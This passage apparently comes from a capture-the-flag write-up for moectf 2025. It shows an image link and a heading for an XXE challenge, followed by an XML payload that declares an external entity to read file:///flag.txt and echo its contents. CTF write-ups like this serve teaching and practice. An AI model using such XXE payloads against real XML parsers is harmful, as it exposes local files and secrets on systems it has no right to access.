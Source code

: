 ![image.png](../../assets/images/moectf2025wp/image_10.png)

---

## [XXE] 10 第十章 天机符阵_revenge

```xml
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE Anything [
<!ENTITY file SYSTEM "file:///flag.txt">
]>
<输出>&file;</输出>
```
